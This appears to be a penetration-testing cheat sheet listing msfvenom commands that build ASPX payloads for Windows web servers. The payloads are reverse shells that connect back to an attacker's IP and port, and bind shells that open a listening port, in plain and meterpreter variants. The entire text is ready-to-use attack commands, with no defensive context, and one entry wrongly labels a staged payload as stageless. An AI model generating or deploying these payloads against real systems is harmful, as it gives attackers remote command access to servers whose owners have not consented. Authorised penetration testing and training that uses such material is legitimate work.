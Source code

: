 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - windows
  - metasploit-framework
---
```

# ASPX

## Reverse Shells

Stageless x86 (32-bit) reverse shell.

```
$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o payload-x86.aspx
```

Stageless x86_64 (64-bit) reverse shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o payload-x86-64.aspx
```

Staged x86 (32-bit) reverse shell.

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o payload-x86.aspx
```

Stageless x86_64 (64-bit) reverse shell.

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o payload-x64.aspx
```

Staged x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o payload-x86.aspx
```

Stageless x86-64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o payload-x64.aspx
```

Stageless x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o payload-x86.aspx
```

Stageless x86-64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o payload-x64.aspx
```

## Bind Shells

Staged x86 (32-bit) bind shell.

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f aspx -o payload-x86.aspx
```

Stageless x86-64 (64-bit) bind shell.

```
$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f aspx -o payload-x64.aspx
```

Staged x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f aspx -o payload-x86.aspx
```

Staged x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f aspx -o payload-x64.aspx
```

Stageless x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f aspx -o payload-x86.aspx
```

Stageless x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f aspx -o payload-x64.aspx
```